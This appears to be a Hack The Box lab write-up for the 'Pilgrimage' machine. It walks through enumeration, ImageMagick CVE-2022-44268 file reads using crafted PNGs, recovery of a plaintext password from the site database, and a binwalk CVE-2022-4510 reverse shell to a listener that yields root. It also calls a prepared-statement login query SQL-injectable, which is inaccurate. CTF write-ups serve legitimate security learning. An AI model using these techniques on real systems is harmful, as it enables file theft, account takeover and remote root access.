

# Pilgrimage HTB

## Overview
---

> Pilgrimage is an easy Linux box, featuring a website for image shrinking and a Git repository housing the website's source code. Upon reviewing the source code, I found a vulnerable version of ImageMagick being used, susceptible to file retrieval. Leveraging this, I retrieved the website's database, uncovering user credentials that were subsequently reused for SSH access. Next, a bash script executed by the root user used a vulnerable version of binwalk. I exploited the binwalk vulnerability to get root privileges.

---
## Enumeration
---
### Open Ports

Found two open ports using nmap
- Port 22 is running OpenSSH.
- Port 80 hosts a Nginx web server.

Moreover, the website on port 80 appears to be PHP-based and is also hosting a Git repository.

```bash
#nmap -p22,80 -sV -sC -T4 -Pn -oA pilgrimage.htb pilgrimage.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-29 16:49 EDT
Nmap scan report for pilgrimage.htb (10.129.111.11)
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Pilgrimage - Shrink Your Images
| http-git:
|   10.129.111.11:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### port 80 - pilgrimage.htb

The IP address redirects to `pilgrimage.htb`. The site at this address requires a PHP session cookie, indicating that PHP is likely part of the tech stack.

```bash
> http -ph 10.129.111.11
HTTP/1.1 301 Moved Permanently
Connection: keep-alive
Content-Length: 169
Content-Type: text/html
Date: Thu, 29 Jun 2023 20:43:38 GMT
Location: http://pilgrimage.htb/
Server: nginx/1.18.0

> http -ph pilgrimage.htb
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Thu, 29 Jun 2023 20:45:30 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: nginx/1.18.0
Set-Cookie: PHPSESSID=9ig5jqlpa70t2lop3id9s5g84q; path=/
Transfer-Encoding: chunked
```

The `pilgrimage.htb` website appears to be an online image shrinker. However, access to the image shrinking functionality requires authentication. Fortunately, there is a registration functionality available.



After logging in, I uploaded a test image, and the site returned a link to view the shrunken image. Unfortunately, there doesn't seem to be anything significant in the modified image's EXIF data.


### Directory Enum

While, fuzzing the virtual host for hidden files and directories, I discovered a `.git` directory. This confirms the presence of a GIT repository.

```bash
> ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://pilgrimage.htb/FUZZ -o ffuf_pilgrimage.md -of md -t 100

.git                    [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 62ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 66ms]
.git/index              [Status: 200, Size: 3768, Words: 22, Lines: 16, Duration: 66ms]
.git/logs/              [Status: 403, Size: 153, Words: 3, Lines: 8, Duration: 66ms]
.hta                    [Status: 403, Size: 153, Words: 3, Lines: 8, Duration: 68ms]
.htpasswd               [Status: 403, Size: 153, Words: 3, Lines: 8, Duration: 69ms]
.git/config             [Status: 200, Size: 92, Words: 9, Lines: 6, Duration: 70ms]
.htaccess               [Status: 403, Size: 153, Words: 3, Lines: 8, Duration: 69ms]
assets                  [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 63ms]
index.php               [Status: 200, Size: 7621, Words: 2051, Lines: 199, Duration: 64ms]
tmp                     [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 64ms]
vendor                  [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 62ms]
```

---
## Initial Foothold
---

I used the [git-dumper](https://github.com/arthaud/git-dumper) script to download the Git repository. The repository appears to contain the source code for the website, including a `magick` directory, indicating that  ImageMagick is used for the image shrinking functionality.

```bash
> git-dumper http://pilgrimage.htb ./git_repo
[-] Testing http://pilgrimage.htb/.git/HEAD [200]
[-] Testing http://pilgrimage.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://pilgrimage.htb/.gitignore [404]
[-] http://pilgrimage.htb/.gitignore responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/COMMIT_EDITMSG [200]
...snip...
...snip...
> cd git_repo
> ls -la
Permissions Size User Date Modified Name
drwxr-xr-x     - kali 29 Jun 16:59  .git
drwxr-xr-x     - kali 29 Jun 16:58  assets
.rwxr-xr-x  5.5k kali 29 Jun 16:58  dashboard.php
.rwxr-xr-x  9.2k kali 29 Jun 16:58  index.php
.rwxr-xr-x  6.8k kali 29 Jun 16:58  login.php
.rwxr-xr-x    98 kali 29 Jun 16:58  logout.php
.rwxr-xr-x   28M kali 29 Jun 16:58  magick
.rwxr-xr-x  6.8k kali 29 Jun 16:58  register.php
drwxr-xr-x     - kali 29 Jun 16:58  vendor
```

The Git log contains only one commit, but it does provide a potential username: `emily`.

```bash
* e1a40be - Wed, 7 Jun 2023 20:11:48 +1000 (3 weeks ago) (committed: Wed, 7 Jun 2023 20:11:48 +1000)  (HEAD -> master)
            Pilgrimage image shrinking service initial commit.
            - emily <emily@pilgrimage.htb>  (committer: root <root@pilgrimage.htb>)
```

### Source code review

This code snippet from `login.php` seems to be vulnerable to SQL injection. The username and password used in the SQLite query are taken directly from the POST data without any sanitization. It also shows the location of the SQLite database used, `/var/db/pilgrimage`.

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['username'] && $_POST['password']) {
  $username = $_POST['username'];
  $password = $_POST['password'];

  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));
```

The source code of `index.php` details the image upload process. Upon resizing the image using ImageMagick, if a valid user session is present, it stores the URL of the resized image along with the original image name in the database.

```bash
if($upload) {
      $mime = ".png";
      $imagePath = $upload->getFullPath();
      if(mime_content_type($imagePath) === "image/jpeg") {
        $mime = ".jpeg";
      }
      $newname = uniqid();
      exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
      unlink($upload->getFullPath());
      $upload_path = "http://pilgrimage.htb/shrunk/" . $newname . $mime;
      if(isset($_SESSION['user'])) {
        $db = new PDO('sqlite:/var/db/pilgrimage');
        $stmt = $db->prepare("INSERT INTO `images` (url,original,username) VALUES (?,?,?)");
        $stmt->execute(array($upload_path,$_FILES["toConvert"]["name"],$_SESSION['user']));
      }
      header("Location: /?message=" . $upload_path . "&status=success");
    }
```

### ImageMagick Information Disclosure

#### Manual

Additionally, the `magick` executable gives me the ImageMagick version being used for the resizing: 7.1.0-49 beta.

```bash
> ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

While searching for exploits for the identified version of ImageMagick, I discovered an information disclosure vulnerability, [CVE-2022-44268](https://web.archive.org/web/20230331125510/https://www.metabaseq.com/imagemagick-zero-days/). In summary, if ImageMagick has permissions to read a specific file, this vulnerability allows embedding the content of that file in the result of an ImageMagick operation.
The exploitation involves using a tEXt data chunk with the keyword `profile`, followed by the filename as a string. Then, ImageMagick interprets this string as a file to be loaded due to the `FileToStringInfo` method, potentially leading to the disclosure of sensitive information.

I can use `pngcrush` to include the `tEXt` data and confirm its presence using `exiftool`. Subsequently, I uploaded the crafted image to Pilgrimage and retrieved the hex data from the `Raw Profile Type` tag of the resized image, effectively exploiting CVE-2022-44268.

```bash
❯ convert -size 32x32 xc:white exploit.png
❯ pngcrush -text a "profile" "/etc/hostname" exploit.png
  Recompressing IDAT chunks in exploit.png to pngout.png
   Total length of data found in critical chunks            =        72
   Best pngcrush method        =   1 (ws 11 fm 0 zl 4 zs 0) =        72
CPU time decode 0.001117, encode 0.001312, other 0.018197, total 0.021457 sec

❯ exiftool -profile pngout.png
Profile                         : /etc/hostname
```

```bash
❯ exiftool "-*Profile*" 656346847a76b.png
Raw Profile Type                : ..      11.70696c6772696d6167650a.

❯ echo '70696c6772696d6167650a' | xxd -p -r
pilgrimage
```

Similarly, I can dump users with a login shell by querying the `/etc/passwd` file.

```bash
❯ echo '726f6f743.....16c73650a' | xxd -r -p | grep sh$
root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
```

#### Automated script

There is a publicly available automated [rust PoC](https://github.com/voidz0r/CVE-2022-44268) for CVE-2022-44268.

```bash
> cargo run "/etc/passwd"
    Finished dev [unoptimized + debuginfo] target(s) in 0.05s
     Running `target/debug/cve-2022-44268 /etc/passwd`

❯ exiftool "-*Profile*" 649df80e3ce8d.png
Raw Profile Type                : ..    1437.726f6f743.....16c73650a.

❯ echo '726f6f743.....16c73650a' | xxd -r -p | grep sh$
root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
```

### SQLite Enum

Based on the the source code from the repository, I know that the database being used is located at `/var/db/pilgrimage`.  Since this is also used for login, Leveraging the CVE, I can retrieved the SQLite database. ( [CyberChef Recipe for the decoding the data](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Detect_File_Type(true,true,true,true,true,true,true)) )

```
❯ pngcrush -text a "profile" "/var/db/pilgrimage" exploit.png
  Recompressing IDAT chunks in exploit.png to pngout.png
   Total length of data found in critical chunks            =        72
   Best pngcrush method        =   1 (ws 11 fm 0 zl 4 zs 0) =        72
CPU time decode 0.000218, encode 0.000548, other 0.005589, total 0.006840 sec
❯ >....
00000000000000000' | xxd -p -r > pilgrimage.sqlite
❯ file pilgrimage.sqlite
pilgrimage.sqlite: SQLite 3.x database, last written using SQLite version 3034001, file counter 75, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 75
```

Within the SQLite database, I found a user table that contains Emily's password.

```bash
> sqlite3 pilgrimage.sqlite
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
images  users
sqlite> select * from users;
emily|abigchonkyboi123
abraxas|abraxas
sqlite>
```

### SSH as emily

Given that there is a user named `emily` on the box, I attempted password reuse on SSH, and it was successful.

```bash
> pc emily:abigchonkyboi123@pilgrimage.htb
[17:48:40] Welcome to pwncat 🐈!                                                                    __main__.py:164
[17:48:42] pilgrimage.htb:22: normalizing shell path                                                 manager.py:957
[17:48:43] pilgrimage.htb:22: registered new host w/ db                                              manager.py:957
(local) pwncat$
(remote) emily@pilgrimage:/home/emily$ id
uid=1000(emily) gid=1000(emily) groups=1000(emily)
```


---
## Vertical Privilege Escalation
----

Unfortunately, Emily's account on the box does not have sudo privileges

```bash
(remote) emily@pilgrimage:/home/emily$ sudo -l
[sudo] password for emily:
Sorry, user emily may not run sudo on pilgrimage.
```

The [pspy](https://github.com/DominicBreuker/pspy) tool reveals background processes, including those initiated by other users such as root. This shows that a bash script named `malwarescan.sh` is being executed recurringly by the root user.

```bash
2023/06/30 07:54:54 CMD: UID=0     PID=740    | /lib/systemd/systemd-logind
2023/06/30 07:54:54 CMD: UID=0     PID=736    | /bin/bash /usr/sbin/malwarescan.sh
2023/06/30 07:54:54 CMD: UID=0     PID=735    | /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/
```

The malwarescan.sh script appears to be a simple bash script intended to remove files from the `/var/www/pilgrimage.htb/shrunk` directory. The removal is conditional upon a blacklist condition checked by binwalk. Specifically, the script removes files if they are identified as Microsoft executables.

```bash
(remote) emily@pilgrimage:/tmp$ ls -al /usr/sbin/malwarescan.sh
-rwxr--r-- 1 root root 474 Jun  1 19:14 /usr/sbin/malwarescan.sh

(remote) emily@pilgrimage:/tmp$ cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
    filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
    binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
        if [[ "$binout" == *"$banned"* ]]; then
            /usr/bin/rm "$filename"
            break
        fi
    done
done

```

### Binwalk command execution

I can get the version of `binwalk` being used via the help menu, Binwalk v2.3.2.

```bash
(remote) emily@pilgrimage:/home/emily$ binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk

Usage: binwalk [OPTIONS] [FILE1] [FILE2] [FILE3] ...

```

Once again searching for exploits for Binwalk v2.3.2, I came across [CVE-2022-4510](https://www.exploit-db.com/exploits/51249). This vulnerability resulted from merging the PFS extractor plugin with `binwalk` and introduced a path traversal issue due to the use of `os.path.join()`.Since PFS allows `../`, `binwalk` can write to arbitrary directories, inturn allowing command execution. Interestingly, the solution to this vulnerability was to ensure the use of absolute paths (`os.path.abspath()`).

This CVE also has a public [PoC](https://github.com/electr0sm0g/CVE-2022-4510/blob/main/RCE_Binwalk.py) that should give me a reverse shell. Running the python script creates a PNG image named `binwalk_exploit.png`.

```bash
❯ convert -size 32x32 xc:white empty.png
❯ python binwalk_exploit.py empty.png 10.0.14.18 9005

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
❯ l
Permissions Size User    Date Modified Name
.rw-r--r--   753 abraxas 27 Jul 18:18  binwalk_exploit.png
.rw-r--r--  2.8k abraxas 27 Jul 18:18  binwalk_exploit.py
.rw-r--r--    72 abraxas 27 Jul 18:18  empty.png
```

Uploading the newly crafted PNG file to the `/var/www/pilgrimage.htb/shrunk` directory.

```bash
(remote) emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$
(local) pwncat$ upload ../exploit/RCE/binwalk_exploit.png
```

As soon as the cron job executes, I get a shell as the root user.

```bash
> pc -lp 9005
[18:08:59] Welcome to pwncat 🐈!          __main__.py:164
[18:23:50] received connection from 10.129.111.11:55858                             bind.py:84
[18:23:52] 10.129.111.11:55858: registered new host w/ db                       manager.py:957
(local) pwncat$
(remote) root@pilgrimage:/root/quarantine# id
uid=0(root) gid=0(root) groups=0(root)
```

**Pwned!!**

<!--  -->

---

# Related Links

- [ImageMagick: The hidden vulnerability behind your online images - Metabase Q](https://web.archive.org/web/20230331125510/https://www.metabaseq.com/imagemagick-zero-days/)
- [HackerOne | Report #1858574 - [CVE-2022-44268] Arbitrary Remote Leak via ImageMagick | HackerOne](https://hackerone.com/reports/1858574)
- [possible DoS @ stdin (OCE-2022-70); possible arbitrary file leak (OCE… · ImageMagick/ImageMagick@05673e6](https://github.com/ImageMagick/ImageMagick/commit/05673e63c919e61ffa1107804d1138c46547a475)
- [voidz0r/CVE-2022-44268: A PoC for the CVE-2022-44268 - ImageMagick arbitrary file read](https://github.com/voidz0r/CVE-2022-44268)
- [Security Advisory: Remote Command Execution in binwalk - ONEKEY](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/)
- [Serious security hole plugged in infosec tool binwalk | The Daily Swig](https://portswigger.net/daily-swig/serious-security-hole-plugged-in-infosec-tool-binwalk)
- [Directory Traversal in binwalk | CVE-2022-4510 | Snyk](https://security.snyk.io/vuln/SNYK-PYTHON-BINWALK-3250305)
- [CVE-2022-4510/RCE_Binwalk.py at main · electr0sm0g/CVE-2022-4510](https://github.com/electr0sm0g/CVE-2022-4510/blob/main/RCE_Binwalk.py)
